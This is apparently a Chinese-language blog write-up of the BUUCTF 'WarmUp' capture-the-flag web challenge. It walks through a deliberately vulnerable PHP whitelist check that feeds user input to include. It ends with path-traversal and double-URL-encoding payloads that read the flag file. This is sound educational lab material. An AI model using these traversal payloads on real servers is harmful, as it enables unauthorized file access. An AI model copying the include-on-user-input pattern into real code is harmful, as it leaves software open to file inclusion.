








# BUUCTF WEB 4-WarmUp解题过程【】

## 解题思路


查看源码



发现源码中备注了source.php，因此尝试打开该文件



发现多个需要注意的地方，依次进行尝试。

## 解题过程

首先发现除了有source.php还有hint.php，先查看hint.php。



发现flag不在这里，在ffffllllaaaagggg。退回查看另一部分代码。

```
<?php
    highlight_file(__FILE__);  #__FILE__ ：表示当前文件的路径
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"]; 
                                                              #whitelist=["source":"source.php","hint":"hint.php"]
            if (! isset($page) || !is_string($page)) { #isset() 函数用于检测变量是否已设置并且非 NULL。
                                                       #is_string() 函数检查变量是否为字符串类型
                echo "you can't see it";                #为非空字符串则false
                return false;
            }

            if (in_array($page, $whitelist)) { # in_array函数：用于在数组中搜索指定的值，并返回一个布尔值表示是否找到该值
                return true;
            }

            $_page = mb_substr( #mb_substr() 函数返回字符串的一部分
                $page,          #从该 string 中提取子字符串。
                0,              #开始位置
                mb_strpos($page . '?', '?') #长度  ；mb_strpos函数是用于在字符串中查找指定子字符串第一次出现的位置
                                            #使用"."运算符进行字符串拼接，即将两个字符串通过"."连接起来

            );                              #返回$_page =$page
            if (in_array($_page, $whitelist)) { #in_array函数功能 -- 检查数组中是否存在某个值
                return true;
            }

            $_page = urldecode($page);#urldecode — 解码已编码的 URL 字符串, 解码给出的已编码字符串中的任何 %##。返回解码后的字符串
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file']) 
  #$_REQUEST数组是一个全局变量，用于在PHP程序中获取用户请求中的数据。它可以获取GET和POST请求中的数据，因此非常常用于处理表单数据。$_REQUEST数组的键名为表单元素的name属性值，而值为用户在表单中输入的实际数据
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

开始分析源码。

```
if (
#$_REQUEST数组是一个全局变量，用于在PHP程序中获取用户请求中的数据。它可以获取GET和POST请求中的数据，因此非常常用于处理表单数据。$_REQUEST数组的键名为表单元素的name属性值，而值为用户在表单中输入的实际数据

! empty($_REQUEST['file']) 
&& is_string($_REQUEST['file'])
&& emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }
```

首先进入if判断，有三个判据，均为and，需三个判决同时为Ture才可执行。并且程序中存在include函数，此函数存在[文件包含漏洞](src='../PHP笔记/文件包含漏洞.md')。三个判决以此为：

* ! empty($_REQUEST['file']) 。empty—检查变量是否为空，此判据确定获取的请求不为空。
* is_string($_REQUEST['file'])。**is\_string** — 检测变量的类型是否是字符串，此判据确定获取的请求为字符串。
* emmm::checkFile($_REQUEST['file'])。emmm类checkFile方法判断获取的请求是否为True。

```
class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"]; 
                                                              #whitelist=["source":"source.php","hint":"hint.php"]
            if (! isset($page) || !is_string($page)) { #isset() 函数用于检测变量是否已设置并且非 NULL。
                                                       #is_string() 函数检查变量是否为字符串类型
                echo "you can't see it";                #为非空字符串则false
                return false;
            }

            if (in_array($page, $whitelist)) { # in_array函数：用于在数组中搜索指定的值，并返回一个布尔值表示是否找到该值
                return true;
            }

            $_page = mb_substr( #mb_substr() 函数返回字符串的一部分
                $page,          #从该 string 中提取子字符串。
                0,              #开始位置
                mb_strpos($page . '?', '?') #长度  ；mb_strpos函数是用于在字符串中查找指定子字符串第一次出现的位置
                                            #使用"."运算符进行字符串拼接，即将两个字符串通过"."连接起来

            );                              #返回$_page =$page
            if (in_array($_page, $whitelist)) { #in_array函数功能 -- 检查数组中是否存在某个值
                return true;
            }

            $_page = urldecode($page);#urldecode — 解码已编码的 URL 字符串, 解码给出的已编码字符串中的任何 %##。返回解码后的字符串
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
```

首先分析第一个if。简化逻辑A'+B'=(A+B)'，即简化为if(   !(  (isset(page) || is_string(page)   )  )

isset() 函数用于检测变量存在且值不为null。is_string() 函数检查变量是否为字符串类型 。整个if判断（参数存在且值不为null）或者（参数为字符串），如果两个都为flase，则checkFile返回false。**因此输入的参数需满足（变量存在且值不为null）或者（参数为字符串），或同时满足两个判据，程序才能继续往下执行。**

```if
if (! isset($page) || !is_string($page)) { 
                echo "you can't see it";     
                return false;
            }

```

然后分析第二个if。已经定了一个数组whitelist，

in_array函数：用于在数组中搜索指定的值。这个if的判据是请求的参数在whitelist中则返回True。

```
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];

if (in_array($page, $whitelist)) { # in_array函数：用于在数组中搜索指定的值，并返回一个布尔值表示是否找到该值
                return true;
            }

            $_page = mb_substr( #mb_substr() 函数返回字符串的一部分
                $page,          #从该 string 中提取子字符串。
                0,              #开始位置
                mb_strpos($page . '?', '?') #长度  ；mb_strpos函数是用于在字符串中查找指定子字符串第一次出现的位置
                                            #使用"."运算符进行字符串拼接，即将两个字符串通过"."连接起来

            );                              #返回$_page =$page
```

因此尝试传入whitelist中的两个字符串。能正确回显，但不是需要的flag。





查看源码checkFile判据无问题后，执行include \$\_REQUEST['file']; 那么大概率file的参数不对，那么尝试新的参数，是第二个if无法进入，继续向第三个if执行。

```
$_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

$page . '?'  ：请求输入的字符串加上'?'组合成新的字符串。

mb_strpos（）函数：查找字符串在另一个字符串中首次出现的位置。返回字符'？'在请求参数中的位置。如果请求输入的参数没有'？'则返回参数本身的长度，如果输入的参数中有'?'，则返回这个'?'的位置。

mb_substr（）函数：获取部分字符串。将请求输入的字符串参数'?'之前的部分赋给_page。

第三个if。如果请求输入的字符串参数中'?'之前的部分属于'source.php'、'hint.php'中的一个，则返回Ture。因此结合hint.php中的内容尝试构造payload"?file=sourece.php?ffffllllaaaagggg"



仍没有flag。则继续进行第4个if。请求输入的参数经过解码后，再次和第三个if一样，编码后的字符串参数中'?'之前的部分属于'source.php'、'hint.php'中的一个，则返回Ture。

```
$_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

```

urldecode（）：解码出已编码字符串中的任何 %##。 加号（'`+`'）被解码成一个空格字符。查看此函数时发现有个官方手册上有个警告：_GET和_REQUEST已经被解码了。



这个地方涉及到了[URL编码]([https://](https://blog.csdn.net/2301_82018821/article/details/135609006)https://)的知识，当 URL 路径或者查询参数中，带有中文或者特殊字符(：/ . … # @ \$ + ; %等)的时候，就需要对 URL 进行编码（采用十六进制编码格式）。URL 编码的原则是使用安全字符去表示那些不安全的字符。因为浏览器在构建URL时，‌"?"字符用于分隔URL的路径和查询参数。‌浏览器在处理URL时，‌不会对"?"字符本身进行编码，‌因为它在URL的语法中扮演着特定的角色。‌查询参数是通过"?"分隔开的，‌后面跟着键值对，‌用于向服务器传递信息。‌因此，‌"?"字符在URL中是固定的，‌不需要进行编码。‌为了让

因为_REQUEST已经解码一次，urldecode又解码一次，可判断请求输入的参数需进行两次编码，字符串才能正确标识。

```
#如果希望source.php收到为?ffffllllaaaagggg
#则反向思考
参数输入url：source.php%253Fffffllllaaaagggg
经过_REQUEST一次解码：source.php%3Fffffllllaaaagggg
经过urldecode二次解码：source.php?ffffllllaaaagggg
```

按理说应该尝试source.php%253Fffffllllaaaaggggsource.php?ffffllllaaaagggg

但是其实不进行手动编码，之后的'_REQUEST一次解码'和'经过urldecode二次解码'内容都是一样的，所以不需要特意编码。

因此不是编码的问题。

最后开始尝试存在的include函数作为突破口，此函数存在[文件包含漏洞](src='../PHP笔记/文件包含漏洞.md')。因此在文件夹路径上逐级遍历往上查找。

```
->source.php?ffffllllaaaagggg
->source.php?../ffffllllaaaagggg
->source.php?../../ffffllllaaaagggg
->source.php?../../../ffffllllaaaagggg
->source.php?../../../../ffffllllaaaagggg
->source.php?../../../../../ffffllllaaaagggg
```

成功找到flag。



###### 参看内容

###### [[HCTF 2018]WarmUp]https://www.cnblogs.com/bkofyZ/p/17557035.html

###### [URL编码_解码详解]https://blog.csdn.net/2301_82018821/article/details/135609006

###### [XCTF-攻防世界CTF平台-Web类——6、warmup（php中include函数遍历漏洞）]https://blog.csdn.net/Onlyone_1314/article/details/121345155

###### [文件包含漏洞全面详解]https://blog.csdn.net/m0_46467017/article/details/126380415
